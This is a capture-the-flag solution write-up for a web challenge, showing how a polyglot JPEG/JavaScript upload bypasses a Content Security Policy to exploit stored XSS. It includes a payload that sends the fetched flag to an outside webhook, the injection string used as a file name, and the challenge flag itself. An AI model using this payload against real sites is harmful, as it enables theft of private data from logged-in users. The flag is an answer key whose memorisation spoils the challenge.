 # Challenge

**Name:** Poly Wants a JPEG

**Category:** Web

**Difficulty:** Hard

**Author:** Alex Brown (ghostccamm)

**Flag:** ISS{sHaP3s1FtInG_jP3G_f1L3s_hAv3_tr1cK3d_p0Ly!!1!}

**Provided Files:** [web_polywantsajpeg.zip](publish/web_polywantsajpeg.zip)

## Description

My parrot called Poly really loves pretty JPEGs. Can you use my website to send them some beatiful JPEGs?

The goal is to read the flag from `/api/flag`. However, *only logged in users can see it*.

## Solution

Analysing the source code clearly shows that there is a XSS vulnerability when the html page for uploads is created and stored at `/upload` on the server. Poly checks each of these pages, meaning that you can exploit the XSS vulnerability to fetch the flag from `/api/flag` and then send it to a webhook to view.

However, the Content Security Policy (CSP) has set the default source to `self`. Meaning that inline XSS will not work and the browser will only execute javascript code that is in a file on the server.

The only files that can be uploaded a JPEG image files, which implies that the only way to exploit the XSS vulnerability is to trick the server that the Javascript file that you upload is a JPEG file. This is termed a **Polyglot JPEG Javascript file**.

Burpsuite has written a [great article](https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs) explaining how to modify the bytes of a JPEG file such that it can be interpreted as a javascript file using the `ISO-8859-1` charset. 

I have also made a tool called `xjt` for constructing Polyglot JPEG/Javascript files with a custom payload that you can download from [here](https://github.com/Ccamm/Polyglot-JPEG-XSS). The following command creates the polyglot file that first fetches the flag from `/api/flag` then uses `document.location` to a web hook. `document.location` or something similar must be used when sending the flag to the webhook, otherwise it would be blocked by the CSP.

```
$ xjt -p 'fetch("/api/flag").then(r=>r.text()).then((data)=>{document.location="https://webhook.site/b26b4c23-331c-4d0d-987c-5738155b7f44?flag="+btoa(data);});' -o payload.jpg
```

To trigger the vulnerability, there are two stages.

1) Upload the payload to the server.
2) Using the path of the first image, upload a second image where the name exploits the XSS vuln as shown below.

*name*
```html
</h3><script charset="ISO-8859-1" src="/images/uploads/83ab453ee072b1ad"></script><h3>
```

Now you'll just need to wait for about a minute for poly to visit your page to get the flag.

![](solution/weebhook.png)

```
$ echo eyJzdGF0dXMiOiAic3VjY2VzcyIsICJ2YWx1ZSI6ICJJU1N7c0hhUDNzMUZ0SW5HX2pQM0dfZjFMM3NfaEF2M190cjFjSzNkX3AwTHkhITEhfSJ9 | base64 -d

{"status": "success", "value": "ISS{sHaP3s1FtInG_jP3G_f1L3s_hAv3_tr1cK3d_p0Ly!!1!}"}
```

The solution code is [here](solution/exploit.py) with an example payload JPEG file [here](solution/payload.jpg).